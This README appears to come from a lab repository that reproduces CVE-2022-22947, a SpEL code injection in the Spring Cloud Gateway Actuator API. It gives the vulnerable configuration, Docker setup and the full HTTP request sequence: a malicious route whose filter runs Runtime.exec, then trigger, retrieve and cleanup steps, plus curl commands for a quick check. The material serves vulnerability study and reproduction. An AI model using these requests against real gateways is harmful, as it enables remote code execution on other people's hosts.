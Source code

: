 # Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

[中文版本(Chinese version)](README.zh-cn.md)

## Affected / Fixed / Preconditions

- **Affected**: 3.1.0, 3.0.0–3.0.6
- **Fixed**: 3.1.1, 3.0.7
- **Preconditions**
  - The project includes `spring-boot-starter-actuator`
  - `management.endpoint.gateway.enabled: true`
  - `management.endpoints.web.exposure.include` includes `gateway` (or `*`)
  - `/actuator/gateway/**` is exposed to the network and accessible without authentication or filtering.
  - (Optional) If the management port is separated, access the actuator via `management.server.port`.

Spring Cloud Gateway provides a library for building an API Gateway on top of Spring WebFlux.

Applications using Spring Cloud Gateway versions 3.1.0 and 3.0.0–3.0.6 are vulnerable when the Gateway Actuator endpoint is enabled, exposed, and unsecured. The issue is fixed in 3.1.1 and 3.0.7. A remote attacker can craft a malicious request to achieve arbitrary code execution on the host.

## Minimal configuration (for PoC)

```yaml
server:
  port: 8080

management:
  server:
    port: 8080        # Use a separate port (e.g., 9090) when separating the management port
  endpoints:
    web:
      exposure:
        include: gateway
  endpoint:
    gateway:
      enabled: true

```

## Vulnerability Environment

```bash
mvn -q -DskipTests package
cp target/*.jar target/app.jar
docker compose up -d

```

After server is started, browse the `http://your-ip:8080` to see an example page.

## Vulnerability Reproduction

Firstly, send the following request to add a route which contains an evil SpEL expression:

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "predicates": [{ "name": "Path", "args": { "pattern": "/poc/**" } }],
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![Add route request](1.png)

Secondly, refresh the gateway. The SpEL expression will be executed in this step:

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![Refresh trigger](2.png)

Thirdly, send the following request to retrieve the result:

```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![Retrieve route result](3.png)

Afterward, send a DELETE request to remove our evil route:

```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![Delete route](4.png)

Finally, refresh the gateway again:

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

### Quick verification (Windows / Git Bash)

```bash
# Register route and verify header
cat > payload.json <<'EOF'
{
  "id": "hack",
  "order": -1,
  "predicates": [{ "name": "Path", "args": { "pattern": "/poc/**" } }],
  "filters": [
    { "name": "SetPath", "args": { "template": "/headers" } },
    { "name": "AddResponseHeader", "args": { "name": "X-Check", "value": "hello" } }
  ],
  "uri": "https://httpbin.org"
}
EOF

curl -s -X POST http://127.0.0.1:8080/actuator/gateway/routes/hack \
  -H "Content-Type: application/json" --data @payload.json
curl -s -X POST http://127.0.0.1:8080/actuator/gateway/refresh
curl -s -D - -o /dev/null http://127.0.0.1:8080/poc   # should show 'X-Check: hello'


```

![Screenshot of successful header injection](images/CVE-2022-22947Poc.png)

### Cleanup (for Quick verification)

```bash
curl -s -X DELETE http://127.0.0.1:8080/actuator/gateway/routes/hack
curl -s -X POST   http://127.0.0.1:8080/actuator/gateway/refresh

```

### References

- [Spring Advisory: CVE-2022-22947](https://spring.io/security/cve-2022-22947)
- [NVD: CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947)
- [VMware Tanzu Advisory](https://tanzu.vmware.com/security/cve-2022-22947)
- [Blog: SpEL casting and evil beans](https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/)
